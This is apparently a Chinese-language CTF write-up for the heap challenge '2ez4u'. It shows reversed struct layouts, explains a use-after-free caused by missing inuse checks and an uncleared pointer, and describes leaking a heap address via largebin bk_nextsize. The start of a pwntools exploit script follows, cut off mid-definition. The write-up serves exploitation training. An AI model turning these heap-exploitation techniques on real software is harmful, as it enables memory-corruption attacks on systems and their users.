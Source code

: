 ```
00000000 apple           struc ; (sizeof=0x118, mappedto_6)
00000000 color           dd ?
00000004 num             dd ?
00000008 value           dq ?
00000010 idx             dd ?
00000014 field_14        dd ?
00000018 des             db 256 dup(?)
00000118 apple           ends
00000118
00000000 ; ---------------------------------------------------------------------------
00000000
00000000 list            struc ; (sizeof=0x10, mappedto_7)
00000000 inuse           dd ?
00000004 len             dd ?
00000008 obj             dq ?                    ; offset
00000010 list            ends
```

其中最多能够分配16个apple

程序的漏洞在于edit和show的时候没有检查obj的inuse,且delete的时候没有把指针清空,从而导致UAF

还有几点需要注意的,`read_n`函数是一定会在末尾加0字节截断的,leak上可能没那么方便;apple结构体中看似color,num,value都能够修改,但这几个变量的值都是有限制的,因此最后下来只有在largebin搞事了(可能有其他未知的方法).

说一下利用的思路

首先因为有UAF,因此我们可以通过创建一个largebin,把他free掉,然后show的方法,leak出在description位置的`bk_nextsize`,从而得到heap地址

```python
#coding=utf8
from pwn import *
context.log_level = 'debug'
context.terminal = ['gnome-terminal','-x','bash','-c']

local = 1

if local:
	cn = process('./2ez4u')
	#bin = ELF('./2ez4u')
	libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
else:
	pass


def z(a=''):
	gdb.attach(cn,a)
	if a == '':
		raw_input()


def add(Len, con):
	cn.recvuntil('your choice:')
	cn.sendline('1')
	cn.recvuntil('color?(0:red, 1:green):')
	cn.sendline('0')
	cn.recvuntil('value?(0-999):')
	cn.sendline('0')
	cn.recvuntil('num?(0-16)')
	cn.sendline('0')
	cn.recvuntil('description length?(1-1024):')
	cn.sendline(str(Len))
	cn.recvuntil('description of the apple:')
	cn.sendline(con)

def dele(idx):
```